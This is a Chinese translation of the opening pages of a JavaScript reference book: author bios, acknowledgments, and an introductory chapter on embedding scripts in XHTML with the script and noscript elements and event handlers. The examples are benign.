# JavaScript 2.0 权威参考指南


利用本指南，获取关于 JavaScript 2.0 最全面的介绍，包括用于简化和增强 JavaScript 开发的最新特性，深入理解 JavaScript 原理，并提升更高级的 JavaScript 技能。

ISBN:0072253576


如需为促销、赠品或筹款活动进行批量购买折扣，请通过上述地址联系 **McGraw-Hill/Osborne**。有关美国境外翻译或图书经销商的信息，请参阅本书索引之后的国际联系信息页面。


## 关于作者

**Thomas Powell** (tpowell@pint.com) 在互联网领域活跃已超过十年。在 1990 年代初，他在南加州第一家互联网服务提供商 CERFnet 工作。1994 年，他创立了 PINT, Inc. (www.pint.com)，一家总部位于圣地亚哥的网站开发和咨询公司，服务于全国众多企业客户。

Powell 还是多本其他 Web 开发书籍的作者，包括畅销书 *《HTML 与 XHTML 完全参考手册》*、*《Web 设计完全参考手册》* 和 *《网站工程》*。他经常为 *《Network World》* 杂志撰写关于 Web 技术的文章。

Powell 先生在加州大学圣地亚哥分校计算机科学与工程系以及 UCSD 扩展部的信息技术项目教授 Web 设计与开发课程。他拥有 UCLA 的理学学士学位和 UCSD 的计算机科学硕士学位。

**Fritz Schneider** 在哥伦比亚大学获得计算机工程学士学位，在加州大学圣地亚哥分校获得计算机科学硕士学位。他目前在 Google 担任软件工程师，之前的工作经验包括 Web 开发、隐私和安全领域。除了其他事务外，他还花时间游说 Google 管理层在斐济设立工程办公室的明显必要性。在游说成功之前，他满足于生活在旧金山，并梦想一个没有战争、一个没有停车执法的城市。

## 致谢

当你抽出时间写一本像这样大部头的书时，你往往会依靠许多人的帮助。为了避免给这本已经很厚重的书增加太多页数，我在这里只提其中几位。

首先，不出所料，Osborne 的同仁们合作非常愉快。每本书的角色阵容都会变化，但合作总是很愉快：Athena Honore, Lisa McClain, Nancy Maragioglio, Kenyon Brown, Claire Splan, Linda Medoff 和 Jack Lewis。我们的技术编辑 Michael Linde 尽其所能确保我们的准确性。Megg Morin 没有参与这个特定项目，但鉴于我与 Osborne 的长期合作历史，她值得被提及，因为是她引导我走到了今天。

特别要提到我“外部编辑突击队”的一位成员 Daisy Bhonsle，她提供了远超我期望的优秀协助。她对细节的敏锐观察力在这个世界上是罕见的。

PINT 的员工为我提供了许多得力助手，值得特别提及。首先，Mine Okano 协助管理了另一个书籍项目，并且做得非常出色。Mine 还因为要在筹备婚礼的同时兼顾这个书籍项目而特别值得感谢。Fritz 和我祝愿她和 Marc 在共同生活中幸福美满。

其他 PINT 的同事们总是在我需要时伸出援手。特别是 Jeremy Weir 在准备后面章节的高级演示方面提供了巨大帮助。Cory Ducker 和 Marcus Richard 也在出现的小代码项目中提供了帮助。Dave Andrews 和往常一样，在相关的网络和服务器问题上值得信赖。其他 PINT 员工，包括 Dan Whitworth, Catrin Walsh, Jimmy Tam, Rob McFarlane, James Brock, Vergil Pascual, Eric Raether, Cathleen Ryan, Meredith Hodge, Scott Hedstrom, Ryan Herndon, David Sanchez, Melinda Serrato, Darlene Hernandez, Michele Bedard, Candice Fong, Heather Jurek, Kun Puparussanon, Kevin Griffith, Nick Carter 以及许多其他人，通过在我忙碌时维持项目运转而提供了帮助。Joe Lima, Allan Pister, Christie Sorenson, Chris Neppes, Andy Lohr, Tad Fleshman 和 Jared Ashlock 也因为处理了我部分外部软件项目职责而值得赞扬。

本科和扩展课程的学生们总是提出很好的观点，他们的许多想法都已纳入本版。

不知何故，我总能挤出 Web 之外的时间给朋友、家人和家庭。我的妻子 Sylvia 特别确保我不会每个周末都整天工作。Tucker 和 Angus（它们在第 16 章首次亮相印刷版）总是强制执行这一点。

最后，最要感谢的是全球成千上万购买了我各种 Web 技术和设计书籍的读者。能收到如此积极的反馈，并看到人们很好地利用这些信息，确实是一件非常愉快的事情。

Thomas A. Powell
2004 年 6 月

我想感谢我的合著者 Thomas 的耐心和辛勤工作，以及他花时间与我讨论各种话题，无论是技术性的还是其他方面的。还要感谢 Mine Okano 在本项目上持续不断的协助，更不用说她的幽默感了。我的经理 Bill Coughran 值得感谢，感谢他的信任和支持。


弗里茨·施奈德
2004年6月

## 第一部分：**引言**

## 章节列表

- 第1章：JavaScript简介
- 第2章：JavaScript核心特性——概述

## 第1章：JavaScript简介

JavaScript是当今网络上使用的首选客户端脚本语言。它广泛应用于从表单数据验证到复杂用户界面创建等多种任务。然而，这门语言的许多能力尚未被其用户所发现。JavaScript可用于操作它所在文档的标记本身。随着越来越多的开发者发现其真正威力，JavaScript正成为一种一流客户端Web技术，与(X)HTML、CSS和XML并驾齐驱。因此，它将是任何Web设计师都不能不掌握的语言。本章将简要介绍这门语言及其在网页中的包含方式。

> **注意** JavaScript也可在网页之外使用，例如在Windows Script Host中，或用于Mozilla或Jscript.NET的应用程序开发。我们主要关注嵌入网页中的客户端JavaScript，但无论在哪里使用，核心语言都是相同的；只有运行时环境（例如*第二部分*中讨论的浏览器对象）不同。

### 初识JavaScript

我们首次接触JavaScript将通过广受欢迎的“Hello World”示例。在这个版本中，我们将使用JavaScript将字符串“Hello World from JavaScript!”写入一个简单的XHTML过渡型文档以进行显示。

> **注意** XHTML是HTML的最新版本。它用XML重新定义HTML，为该语言带来了更高的规范性，并增强了逻辑结构与文档呈现方面的分离。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>JavaScript Hello World</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<h1 align="center">First JavaScript</h1>
<hr />
<script type="text/javascript">
  document.write("Hello World from JavaScript!");
</script>
</body>
</html>
```

注意脚本是如何通过 **<script>** 元素直接包含在标记中的，该元素包裹了简单的单行脚本：

`document.write("Hello World from JavaScript!");`

使用<script>元素允许浏览器区分哪些是JavaScript，哪些是(X)HTML标记或普通文本。如果我们使用任何标准文本编辑器输入这个示例，就可以将其加载到支持JavaScript的Web浏览器中，如Internet Explorer、Netscape、Mozilla、Opera等，我们应该能看到图1-1所示的结果。



图1-1：Internet Explorer下的“Hello World from JavaScript”

如果我们想加粗文本，可以修改脚本，使其不仅输出一些文本，还输出一些标记。然而，当JavaScript世界与XHTML或HTML中的标记世界交汇时，我们需要小心——它们是两种不同的技术。例如，考虑一下，如果我们在前面的文档中用以下<script>块替换，希望能强调文本。

```
<script type="text/javascript">
<strong>
    document.write("Hello World from JavaScript!");
</strong>
</script>
```

这样做应该会在我们的浏览器窗口中抛出一个错误，如图1-2所示。原因是<strong>标签是标记，而不是JavaScript。因为浏览器将<script>标签内的所有内容都视为JavaScript，当遇到不匹配的内容时，自然会抛出错误。



请注意，有些浏览器不幸可能不会直接在屏幕上显示错误。这是由于JavaScript错误在网络上如此普遍，以至于错误对话框对许多用户来说变成了真正的麻烦，这迫使浏览器厂商默认抑制错误。在许多Netscape浏览器的情况下，你可以在URL栏中输入`javascript:`来查看JavaScript控制台。在Mozilla浏览器的情况下，选择工具 | Web开发，然后启用JavaScript控制台。在Internet Explorer下，默认情况下错误发生的唯一指示是浏览器状态栏左下角的一个小错误图标（黄色带感叹号）。单击此图标会显示一个包含错误信息的对话框。为了自动显示此信息，你可能需要选中“显示每个脚本错误的通知”，该选项可在选择Internet选项时显示的对话框的“高级”选项卡下找到。

无论错误是否显示，为了正确输出字符串，我们可以直接在输出字符串中包含`<strong>`元素，如下所示，

```
document.write("<strong>Hello World</strong> from <font color='red'>JavaScript</font>!");
```

或者我们可以像这样将`<script>`元素的输出包裹在`<strong>`元素中：

```
<strong>
<script type="text/javascript">
    document.write("Hello World from JavaScript!");
</script>
</strong>
```

在这种情况下，**<strong>**标签碰巧包围了JavaScript的输出，因此它随后会被读取并通常被浏览器加粗。这个例子说明了理解标记与JavaScript交汇的重要性。事实上，在学习JavaScript之前，读者应该充分理解正确HTML或更重要的是XHTML标记的细微差别。这不是一个随意的建议。首先考虑任何在畸形(X)HTML文档中使用的JavaScript都可能表现得不可预测，特别是当脚本试图操作格式不正确的标记时。其次，考虑许多（如果不是大多数）脚本将用于生成标记，因此你需要知道你输出的是什么。简而言之，牢固理解(X)HTML对于编写有效的脚本至关重要。在本书中，除非另有说明，我们所有示例均采用经过验证的XHTML 1.0过渡型。我们选择这种标记变体是因为它在XHTML的严格性与当今Web开发人员的常见实践之间取得了平衡。

> **提示** *寻找更多关于正确HTML和XHTML用法的读者应参阅Thomas Powell（McGraw-Hill/Osborne, 2003）的配套书籍*HTML & XHTML：完整参考，第四版。

### 将JavaScript添加到XHTML文档

如前例所示，`<script>`元素通常用于向文档添加脚本。然而，有四种标准方式可以将脚本包含在(X)HTML文档中：

- 在`<script>`元素内
- 通过`<script>`元素的`src`属性作为链接文件
- 在XHTML事件处理程序属性（如`onclick`）内
- 通过链接引用的伪URL `javascript:`语法

请注意，一些较旧的浏览器版本支持其他非标准方式将脚本包含在页面中，例如Netscape 4的实体包含。然而，我们在本版中避免讨论这些，因为如今这些方法仅作为历史脚注而有趣，并未被使用。下一节介绍了组合标记和JavaScript的四种常见方法，所有读者在钻研本书其余部分的示例之前都应仔细学习。

#### `<script>`元素

在HTML或XHTML中包含JavaScript的主要方法是`<script>`元素。支持脚本的浏览器假定`<script>`标签内的所有文本都将被解释为某种形式的脚本语言；默认情况下，这通常是JavaScript。然而，浏览器可能支持其他脚本语言，如VBScript，它被Internet Explorer系列浏览器支持。传统上，表示所用脚本语言的方法是指定标签的`language`属性。例如，

```
<script language="JavaScript">
</script>
```

用于表示包含的内容将被解释为JavaScript。其他值也是可能的；例如，

```
<script language="VBS">
</script>
```

将用于表示使用的是VBScript。当浏览器不理解其`language`属性的值时，应该忽略`<script>`元素的内容。

> **提示** 设置`<script>`的`language`属性时要非常小心。值中的一个简单拼写错误通常会导致浏览器忽略其中的任何内容。


## 使用 &lt;script&gt; 元素

你可以使用任意数量的 &lt;script&gt; 元素。文档会按顺序读取并在遇到时执行，除非脚本的执行被延迟到稍后。（延迟脚本执行的原因将在后面的章节中讨论。）下面的示例展示了三个简单的打印脚本，它们依次运行。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" lang="en">

<head>

<title>JavaScript and the Script Tag</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1>Ready start</h1>

<script type="text/javascript">

    alert("First Script Ran");

</script>

<h2>Running...</h2>

<script type="text/javascript">

    alert("Second Script Ran");

</script>

<h2>Keep running</h2>

<script type="text/javascript">

    alert("Third Script Ran");

</script>

<h1>Stop!</h1>

</body>
</html>
```

在各种浏览器中尝试这个示例，观察脚本是如何运行的。你可能会注意到，在某些浏览器中，HTML 会随着脚本的执行逐步输出，而在其他浏览器中则不会。

这表明 JavaScript 的执行模型确实因浏览器而异。

## 在 &lt;head&gt; 中的脚本

&lt;script&gt; 元素的一个特殊位置是在 (X)HTML 文档的 &lt;head&gt; 标签内。由于网页文档的序列特性，&lt;head&gt; 总是先被读取，因此放置在这里的脚本通常稍后会由文档 &lt;body&gt; 中的脚本引用。&lt;head&gt; 中的脚本通常用于定义变量或函数，这些变量或函数可能在文档的后续部分使用。下面的示例展示了 &lt;head&gt; 中的脚本如何定义一个函数，该函数随后被文档 &lt;body&gt; 中稍后的 &lt;script&gt; 块调用。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" lang="en">

<head>

<title>JavaScript in the Head</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

function alertTest()
{
    alert("Danger! Danger! JavaScript Ahead");
}

</script>

</head>

<body>

<h2 align="center">Script in the Head</h2>

<hr />

<script type="text/javascript">
alertTest();
</script>
</body>
</html>
```

##### 脚本隐藏

大多数浏览器倾向于显示它们无法理解的任何标签所包含的内容，因此将代码从不理解 JavaScript 的浏览器中隐藏起来非常重要。否则，JavaScript 代码会以文本形式显示在页面中。图 1-3 展示了一个未经隐藏处理、在不支持 JavaScript 的浏览器中查看的网页示例。隐藏 JavaScript 的一个简单方法是使用 HTML 注释将脚本代码包围起来。

##### 无隐藏示例

注意下面的脚本代码在像 Netscape 1.x 这样的旧浏览器中未隐藏时，是如何显示在屏幕上而不是执行的。

```javascript
function move1(whichlayer){ tlayer=eval(whichlayer) if
(tlayer.top>0&&tlayer.top<=5){ tlayer.top=0
setTimeout("move1(tlayer)",3000)
setTimeout("move2(document.main.document.second)",3000) return } if
(tlayer.top>=tlayer.document.height*-1){ tlayer.top-=2
setTimeout("move1(tlayer)",100) } else{ tlayer.top=scrollerheight
tlayer.document.write(messages[i]) tlayer.document.close() if
(i===messages.length-1) i=0 else i++ } } function move2(whichlayer){
tlayer2=eval(whichlayer) if (tlayer2.top>0&&tlayer2.top<=5){
tlayer2.top=0 setTimeout("move2(tlayer2)",3000)
setTimeout("move1(document.main.document.first)",3000) return } if
(tlayer2.top>=tlayer2.document.height*-1){ tlayer2.top-=2
setTimeout("move2(tlayer2)",100) } else{ tlayer2.top=scrollerheight
tlayer2.document.write(messages[i]) tlayer2.document.close() if
(i===messages.length-1) i=0 else i++ } } function move3(whichdiv){
```



例如：

```html
<script type="text/javascript">

<!--
put your JavaScript here
//-->
</script>
```

> **注意** *这种隐藏技术与隐藏 CSS 标记的方法类似，但最后一行必须包含 JavaScript 注释来隐藏 HTML 结束注释。这样做的原因是，字符 -- 和 &gt; 在 JavaScript 中具有特殊含义。*

虽然注释隐藏在网上非常常见，但在严格的 XHTML 中，这实际上并不是正确的方式。鉴于 XHTML 是一种基于 XML 的语言，JavaScript 中出现的许多字符（如 &gt; 或 &amp;）具有特殊含义，因此前面的方法可能会带来问题。根据严格的 XHTML 规范，你应该使用以下技术将脚本内容隐藏起来，避免被强制执行 XHTML 的浏览器处理：

```html
<script type="text/javascript">

<! [CDATA[
    ..script here ..
]]>

</script>
```

这种方法除了最严格的 XML 执行浏览器之外，在其他浏览器中都无法工作。它通常会导致浏览器完全忽略脚本或抛出错误，因此作者可以选择使用链接脚本或传统的注释块，或者简单地忽略低级浏览器的问题。大多数关注严格 XHTML 一致性的 Web 开发人员使用链接脚本；只关注 HTML（或根本不关心标准）的开发人员通常使用传统的注释隐藏方法。我们选择了后者，因为它是当今网络上最广泛使用的方法。

##  &lt;noscript&gt; 元素

在浏览器不支持 JavaScript 或 JavaScript 被关闭的情况下，你应该提供替代版本，或者至少提供一条警告消息告知用户发生了什么。&lt;noscript&gt; 元素可以非常轻松地实现这一点。所有支持 JavaScript 的浏览器都应该忽略 &lt;noscript&gt; 的内容，除非脚本被关闭。不支持 JavaScript 的浏览器将显示包含的消息（如果你已经记得用 HTML 注释将 &lt;script&gt; 的内容注释掉的话，它们也会忽略 &lt;script&gt; 的内容）。下面的示例展示了这个多功能元素的简单用法。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" lang="en">

<head>

<title>noscript Demo</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<script type="text/javascript">
<!--
    alert("Your JavaScript is on!");
//-->
</script>
<noscript>
    <em>Either your browser does not support JavaScript or it
        is currently disabled.</em>
</noscript>
</body>
</html>
```

*图 1-4* 展示了三种情况下的渲染效果：首先是不支持 JavaScript 的浏览器，然后是支持 JavaScript 但已禁用的浏览器，最后是开启 JavaScript 的现代浏览器。


不支持 JavaScript 的旧浏览器会显示 `<noscript>` 消息。



禁用 JavaScript 的浏览器会显示 `<noscript>` 消息。



启用 JavaScript 的浏览器会隐藏消息并运行代码。



**图 1-4:** 使用 `<noscript>` 来处理不支持 JavaScript 的浏览器。

`<noscript>` 元素的一个有趣用途是：如果用户在浏览器中没有启用脚本功能，或者使用的是非常旧版的浏览器，可以自动使用 `<meta>` 刷新将他们重定向到一个特殊的错误页面。下面的例子展示了如何实现这一点。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>noscript Redirect Demo</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<!--  warning example does not validate -->
<noscript>
    <meta http-equiv="Refresh" content="0;URL=/errors/noscript.html" />
</noscript>
</head>
<body>
<script type="text/javascript">
<!--
document.write("Congratulations! If you see this you have JavaScript.");
//-->
</script>
<noscript>
    <h2>Error: JavaScript required</h2>
    <p>Read how to <a href="/errors/noscript.html">rectify this problem</a>.</p>
</noscript>
</body>
</html>
```

不幸的是，根据 XHTML 规范，`<noscript>` 标签不应该出现在 `<head>` 中，因此这个例子无法通过验证。考虑到 `<script>` 标签是允许放在 `<head>` 中的，这似乎更像是疏忽而非错误。然而，对于那些追求严格标记的人来说，这种有用的技术并不合适，尽管它可以实现对旧版浏览器的健壮错误处理。关于这类防御性编程技术的更多信息，请参阅[第 23 章](#Chapter 23)。

#### 事件处理器

为了让页面更具交互性，你可以添加一些 JavaScript 命令来等待用户执行某些操作。通常，这些脚本是在响应表单操作和鼠标移动时执行的。要指定这些脚本，我们设置各种事件处理器，通常是通过将 (X)HTML 元素的某个属性设置为引用某个脚本。我们统称为这些属性为*事件处理器*——它们对用户界面事件做出响应并执行某些操作。所有这些属性都以"on"开头，表示它们响应的事件，例如**onclick**、**ondblclick** 和 **onmouseover**。这个简单的例子展示了表单按钮如何响应点击：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>JavaScript and HTML Events Example</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<form action="#" method="get">
<input type="button" value="press me"
       onclick="alert('Hello from JavaScript!');" />
</form>
</body>
</html>
```

> **注意** 在编写传统 HTML 标记时，开发者经常会在事件处理器中混合大小写，例如 `onClick=""`。这种混合大小写使其更容易从其他标记中区分出来，除了提高可读性之外并无其他影响。请记住，这些事件处理器是 HTML 的一部分，因此不区分大小写，所以 `onClick`、`ONCLICK`、`onclick`，甚至 `oNcLiCk` 都是有效的。然而，XHTML 要求全部小写，因此你应该将事件处理器小写化，无论传统如何。

通过组合几个 `<script>` 标签和事件处理器，你可以开始了解脚本是如何构建的。下面的例子展示了如何使用表单元素上的用户事件来触发文档 `<head>` 中定义的 JavaScript。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
<head>
<title>Event Trigger Example</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function alertTest()
{
    alert("Danger! Danger!");
}
//-->
</script>
</head>
<body>
<div align="center">
<form action="#" method="get">
<input type="button" value="Don't push me!"
       onclick="alertTest();" />
</form>
</div>
</body>
</html>
```

前述示例的渲染效果如图 1-5 所示。



**图 1-5:** 脚本可以与用户进行交互。

你可能会想知道哪些 (X)HTML 元素具有事件处理器属性。从 HTML 4.0 规范开始，几乎每个标签（通常是指所有具有视觉显示的）都应该具有一个核心事件，例如 **onclick**、**ondblclick**、**onkeydown**、**onkeypress**、**onkeyup**、**onmousedown**、**onmousemove**、**onmouseover** 和 **onmouseout**。例如，即使这可能没有太多实际意义，你也可以使用标记和脚本指定一个段落可以被点击，如下所示：

```html
<p onclick="alert('Under HTML 4 you can!')">Can you click me?</p>
```

